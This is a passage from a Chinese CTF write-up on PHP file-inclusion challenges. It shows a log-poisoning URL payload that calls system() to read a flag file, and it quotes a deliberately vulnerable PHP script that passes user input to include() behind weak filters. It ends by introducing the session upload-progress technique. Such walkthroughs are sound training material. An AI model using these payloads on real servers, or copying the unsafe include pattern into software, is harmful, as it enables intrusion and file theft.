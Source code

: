 

<img src="https://i-blog.csdnimg.cn/blog_migrate/6f52975b240f5fe29a7b0a1f4cef31d3.png" alt="" style="max-height:106px; box-sizing:content-box;" />


```cobol
/?file=/var/log/nginx/access.log&1=system('tac /var/www/html/fl0g.php');
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/a3eb46df097aa74a917995c4e6c09630.png" alt="" style="max-height:138px; box-sizing:content-box;" />


## web82-86  session 文件包含

```cobol
 <?php
 
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 19:34:45
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
 
*/
 
 
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

过滤了 .

那么 我们就无法使用 带有后缀的文件了

那在 php中 可以使用无后缀的 就是 session文件

这里就需要使用两个东西

```undefined
session.upload_progress
 
 
PHP_SESSION_UPLOAD_PROGRESS 参数
```
